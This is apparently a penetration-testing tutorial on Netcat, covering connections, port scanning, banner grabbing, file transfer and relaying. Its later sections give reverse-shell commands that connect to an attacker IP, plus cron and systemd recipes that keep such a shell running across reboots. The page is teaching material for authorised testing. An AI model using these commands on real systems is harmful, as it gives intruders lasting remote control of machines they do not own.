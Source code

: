 # Netcat

## **Introduction to Netcat**

Netcat, often referred to as the "Swiss Army knife" of networking tools, is a versatile utility used for reading from and writing to network connections using TCP or UDP protocols. It can be used for a variety of purposes such as port scanning, banner grabbing, file transfers, and even creating reverse shells.

### **Installing Netcat**

Netcat is available on most Unix-like systems and can be installed via package managers. Here are the installation commands for different operating systems:

- **Debian/Ubuntu:**
  ```bash
  sudo apt-get install netcat
  ```

- **Red Hat/CentOS:**
  ```bash
  sudo yum install nc
  ```

- **Windows:**
  Download the binary from the official website or use the built-in version on Windows 10.

### **Basic Usage**

#### **1. Connecting to a Server**

To connect to a remote server on a specific port:

```bash
nc <hostname> <port>
```

Example:
```bash
nc example.com 80
```

This command will open a TCP connection to `example.com` on port 80. You can then manually type HTTP commands to interact with the web server.

#### **2. Listening for Connections**

To make your system listen for incoming connections on a specific port:

```bash
nc -l -p <port>
```

Example:
```bash
nc -l -p 12345
```

This command will make Netcat listen on port 12345 for incoming connections.

### **Port Scanning**

#### **1. Scanning a Single Port**

To scan a single port on a remote host:

```bash
nc -zv <hostname> <port>
```

Example:
```bash
nc -zv example.com 80
```

The `-z` option tells Netcat to scan without sending data, and `-v` enables verbose mode.

#### **2. Scanning a Range of Ports**

To scan a range of ports:

```bash
nc -zv <hostname> <startport>-<endport>
```

Example:
```bash
nc -zv example.com 80-100
```

This command will scan ports 80 to 100 on `example.com`.

### **Banner Grabbing**

Banner grabbing is useful for identifying services running on open ports.

```bash
nc -v <hostname> <port>
```

Example:
```bash
nc -v example.com 80
```

When connected, type any random text and hit enter to receive a response from the server, which often includes a banner.

### **File Transfer**

#### **1. Sending Files**

On the sending machine:

```bash
nc <destination_ip> <port> < <filename>
```

Example:
```bash
nc 192.168.1.2 12345 < file.txt
```

#### **2. Receiving Files**

On the receiving machine:

```bash
nc -l -p <port> > <filename>
```

Example:
```bash
nc -l -p 12345 > received_file.txt
```

### **Creating Reverse Shells**

Reverse shells are a common technique used in penetration testing to gain control over a target machine.

#### **1. On the Attacker's Machine**

Start by listening for incoming connections:

```bash
nc -l -p 4444
```

#### **2. On the Target Machine**

Initiate a reverse shell connection back to the attacker's machine:

```bash
nc <attacker_ip> <port> -e /bin/bash
```

Example:
```bash
nc 192.168.1.2 4444 -e /bin/bash
```

This will provide a shell back to the attacker's machine.

### **Persistent Reverse Shell**

To ensure the reverse shell persists through reboots, you can create a cron job or a systemd service on the target machine.

#### **1. Using Cron Job**

Edit the cron jobs with:

```bash
crontab -e
```

Add the following line:

```bash
@reboot nc <attacker_ip> <port> -e /bin/bash
```

#### **2. Using systemd Service**

Create a new service file in `/etc/systemd/system/reverse-shell.service`:

```ini
[Unit]
Description=Reverse Shell

[Service]
ExecStart=/bin/nc <attacker_ip> <port> -e /bin/bash
Restart=always

[Install]
WantedBy=multi-user.target
```

Enable and start the service:

```bash
sudo systemctl enable reverse-shell.service
sudo systemctl start reverse-shell.service
```

### **Relaying and Proxying**

Netcat can be used to relay traffic between two machines.

#### **1. Relay Traffic**

On the relay machine:

```bash
mkfifo /tmp/fifo
nc -l -p 12345 < /tmp/fifo | nc <destination_ip> 80 > /tmp/fifo
```

This command creates a named pipe and relays traffic from port 12345 to port 80 on the destination IP.

### **Conclusion**

Netcat is a powerful and versatile tool that can be leveraged in various scenarios during penetration testing. Understanding its capabilities and applications is crucial for any penetration tester. Practice these commands in a controlled environment to become proficient in their usage. Always ensure you have proper authorization before performing any penetration testing activities.


